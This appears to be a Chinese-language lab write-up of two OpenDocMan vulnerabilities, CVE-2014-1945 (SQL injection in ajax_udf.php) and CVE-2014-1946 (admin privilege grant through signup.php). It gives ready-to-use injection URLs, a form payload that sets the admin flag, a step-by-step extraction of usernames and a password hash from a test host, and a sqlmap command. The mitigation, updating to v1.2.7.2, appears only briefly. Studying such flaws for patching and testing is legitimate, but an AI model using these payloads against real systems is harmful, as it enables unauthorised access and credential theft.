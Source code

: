 --------
CVE-2014-1945：SQL注入
该漏洞是因为/ajax_udf.php脚本中存在add_value对HTTP GET参数请求验证不充分导致存在的漏洞。

sql 注入payload:
http://[host]/jabcd0cs/ajax_udf.php?q=1&add_value=odm_user%20UNION%20SELECT%201,version%28%29,3,4,5,6,7,8,9

--------
CVE-2014-1946：访问控制不当
由于在更新用户配置文件时/signup.php脚本中允许的操作验证不足，导致远程身份验证的攻击者可以将管理权限分配给当前帐户并获得对应用程序的完全控制权限。

payload:
-------
```

<form action="http://[host]/signup.php" method="post" name="main">
<input type="hidden" name="updateuser" value="1">
<input type="hidden" name="admin" value="1">
<input type="hidden" name="id" value="[USER_ID]">
<input type="submit" name="login" value="Run">
</form>


```
--------
防护手段：
Update to OpenDocMan v1.2.7.2

More Information:
http://www.opendocman.com/opendocman-v1-2-7-1-release/
http://www.opendocman.com/opendocman-v1-2-7-2-released/


1）CVE-2014-1945攻击利用
访问：
http://10.211.55.42/jabcd0cs/ajax_udf.php?q=1&add_value=odm_user%20UNION%20SELECT%201,version%28%29,3,4,5,6,7,8,9
发现存在sql注入！

手工注入：
查找odm_user数据库底下的username信息：将version()改为username
http://10.211.55.42/jabcd0cs/ajax_udf.php?q=1&add_value=odm_user%20UNION%20SELECT%201,username,3,4,5,6,7,8,9%20from%20odm_user
发现guest、webmin用户！
继续查看密码：
http://10.211.55.42/jabcd0cs/ajax_udf.php?q=1&add_value=odm_user%20UNION%20SELECT%201,password,3,4,5,6,7,8,9%20from%20odm_user
这里将username改为password即可发现hash值：
b78aae356709f8c31118ea613980954b



可以用通过sqlmap跑下：
爆库：
sqlmap -u "http://10.211.55.42/jabcd0cs/ajax_udf.php?q=1&add_value=odm_user" --dbs --level=5 --risk=3
